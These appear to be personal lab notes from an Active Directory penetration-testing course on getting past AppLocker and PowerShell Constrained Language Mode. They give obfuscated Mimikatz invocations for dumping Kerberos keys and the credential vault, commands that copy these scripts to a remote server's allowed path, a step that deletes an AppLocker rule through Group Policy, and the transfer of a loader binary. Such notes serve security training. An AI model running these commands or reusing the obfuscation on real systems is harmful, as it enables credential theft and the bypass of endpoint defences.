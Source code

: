 View constrained language type
```powershell
$ExecutionContext.SessionState.LanguageMode
```

View Policy
```powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

Default rules are to allow **Everyone** to access and run scripts from `C:\Program Files` and `C:\Windows`
![[Pasted image 20250506212949.png]]

In the `Constrained Language Mode`, we can't run scripts using dot sourcing (`. .\Invoke-Mimi.ps1`). So, we must modify `Invoke-Mimi.ps1 `to include the 
function call in the script itself and transfer the modified script (`Invoke-MimiEx.ps1`) to the target server.

Create `Invoke-MimiEx-keys.ps1`
- Create a copy of Invoke-Mimi.ps1 and rename it to `Invoke-MimiEx-keys.ps1`
- Open `Invoke-MimiEx-keys.ps1 `in PowerShell ISE (Right click on it and click Edit). 
- Add the below encoded value for "sekurlsa::ekeys" to the end of the file

```powershell
$8 = "s";
$c = "e";
$g = "k";
$t = "u";
$p = "r";
$n = "l";
$7 = "s";
$6 = "a";
$l = ":";
$2 = ":";
$z = "e";
$e = "k";
$0 = "e";
$s = "y";
$1 = "s";
$Pwn = $8 + $c + $g + $t + $p + $n + $7 + $6 + $l + $2 + $z + $e + $0 + $s + 
$1 ;
Invoke-Mimi -Command $Pwn
```

Same thing for Credential Vault
```powershell
$8 = "t"; $c = "o"; $g = "k"; $t = "e"; $p = "n"; $n = ":"; $7 = ":"; $6 = "e"; $l = "l"; $2 = "e"; $z = "v"; $e = "a"; $0 = "t"; $s = "e";
$cmd1 = $8 + $c + $g + $t + $p + $n + $7 + $6 + $l + $2 + $z + $e + $0 + $s;

$v1 = "v"; $v2 = "a"; $v3 = "u"; $v4 = "l"; $v5 = "t"; $v6 = ":"; $v7 = ":"; $v8 = "c"; $v9 = "r"; $v10 = "e"; $v11 = "d";
$v12 = " "; $v13 = "/"; $v14 = "p"; $v15 = "a"; $v16 = "t"; $v17 = "c"; $v18 = "h"; $v19 = '"';
$cmd2 = $v19 + $v1 + $v2 + $v3 + $v4 + $v5 + $v6 + $v7 + $v8 + $v9 + $v10 + $v11 + $v12 + $v13 + $v14 + $v15 + $v16 + $v17 + $v18 + $v19;

# Concatenate both commands into a single string
$Pwn = $cmd1 + " " + $cmd2

# Run it
Invoke-Mimi -Command $Pwn

```

Copy to machine and run
```powershell
Copy-Item C:\AD\Tools\Invoke-MimiEx-keys.ps1 \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files'

Copy-Item C:\AD\Tools\Invoke-MimiEx-vault.ps1 \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files'

.\Invoke-MimiEx-keys.ps1
.\Invoke-MimiEx-vault.ps1
```

### Generic All over AppLocker Policy
**This policy must apply to the machine**

Open CMD as user with rights
```powershell
runas /user:dcorp\srvadmin /netonly cmd
```

Open Group Policy editor
```powershell
gpmc.msc
```

Edit Policy
![[Pasted image 20250507064108.png]]

Policies -> Windows Settings -> Security Settings -> Application Control Policies -> AppLocker

Executable rules, delete `Allow - Everyone - Signed by MS`


Force update on compromised machines
```powershell
gpupdate /force
```

```powershell
echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-adminsrv\C$\Users\Public\Loader.exe
```

